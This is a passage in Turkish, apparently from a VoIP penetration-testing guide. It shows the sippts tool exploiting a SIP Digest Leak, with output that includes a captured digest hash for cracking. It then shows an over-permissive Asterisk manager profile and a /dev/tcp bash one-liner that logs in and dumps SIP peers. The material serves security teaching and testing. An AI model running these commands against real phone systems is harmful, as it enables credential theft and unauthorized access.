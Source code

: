 - **SIPPTS sızıntısı** [**sippts**](https://github.com/Pepelux/sippts)**'den:** SIPPTS sızıntısı, çok sayıda SIP Telefonunu etkileyen SIP Digest Leak zafiyetini istismar eder. Çıktı, SIPPTS dcrack veya SipCrack aracı kullanarak brute force yapmak için SipCrack formatında kaydedilebilir.
```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```
### Click2Call

Click2Call, bir **web kullanıcısının** (örneğin bir ürüne ilgi duyan) **telefon numarasını** tanıtmasına olanak tanır. Ardından bir ticari arama yapılır ve kullanıcı **telefonu açtığında** kullanıcı **ajanla arama yapılarak bağlanır**.

Bunun için yaygın bir Asterisk profili:
```scss
[web_user]
secret = complex_password
deny = 0.0.0.0/0.0.0.0
allow = 0.0.0.0/0.0.0.0
displayconnects = yes
read = system,call,log,verbose,agent,user,config,dtmf,reporting,crd,diapla
write = system,call,agent,user,config,command,reporting,originate
```
- Önceki profil **HERHANGİ BİR IP adresinin bağlanmasına izin veriyor** (şifre biliniyorsa).
- Daha önce belirtildiği gibi, **bir arama düzenlemek için** **okuma izinlerine gerek yoktur** ve **sadece** **yazma** için **başlatma** izni gereklidir.

Bu izinlerle, şifreyi bilen herhangi bir IP bağlanabilir ve çok fazla bilgi çıkarabilir, örneğin:
```bash
# Get all the peers
exec 3<>/dev/tcp/10.10.10.10/5038 && echo -e "Action: Login\nUsername:test\nSecret:password\nEvents: off\n\nAction:Command\nCommand: sip show peers\n\nAction: logoff\n\n">&3 && cat <&3
```
**Daha fazla bilgi veya eylem talep edilebilir.**

### **Dinleme**
